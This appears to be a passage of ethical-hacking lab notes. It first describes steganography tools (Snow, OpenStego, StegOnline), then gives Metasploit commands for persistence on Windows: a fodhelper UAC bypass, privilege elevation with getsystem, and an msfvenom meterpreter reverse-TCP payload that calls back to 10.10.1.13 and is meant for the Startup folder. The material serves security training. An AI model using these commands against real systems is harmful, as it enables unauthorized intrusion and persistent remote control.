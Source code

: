 

### Hide Data using White Space Steganography

Snow is a program that conceals messages in text files by appending tabs and spaces to the end of lines, and that extracts hidden messages from files containing them. The user hides the data in the text file by appending sequences of up to seven spaces, interspersed with tabs.

### Image Steganography using OpenStego and StegOnline

OpenStego

OpenStego is an image steganography tool that hides data inside images. It is a Java-based application that supports password-based encryption of data for an additional layer of security. It uses the DES algorithm for data encryption, in conjunction with MD5 hashing to derive the DES key from the provided password.

StegOnline

StegOnline is a web-based, enhanced and open-source port of StegSolve. It can be used to browse through the 32 bit planes of the image, extract and embed data using LSB steganography techniques and hide images within other image bit planes.

You can also use other image steganography tools such as QuickStego (http://quickcrypto.com), SSuite Picsel (https://www.ssuitesoft.com), CryptaPix (https://www.briggsoft.com), and gifshuffle (http://www.darkside.com.au) to perform image steganography on the target system.


### Maintain Persistence by Abusing Boot or Logon Autostart Execution


Open a reverse TCP shell on target Windows machine.

try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.

	background
	use exploit/windows/local/bypassuac_fodhelper
	set session 1
	show options
	set LHOST 10.10.1.13
	set TARGET 0
	exploit
	
Elevate privileges:

	getsystem -t 1 
	getuid
	cd “C:\\ProgramData\\Start Menu\\Programs\\Startup”
	pwd
	

Payload that needs to be uploaded into the Startup folder of Windows 11 machine:

	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=8080 -f exe > payload.exe
	
upload the malicious file into the Windows 11 machine:
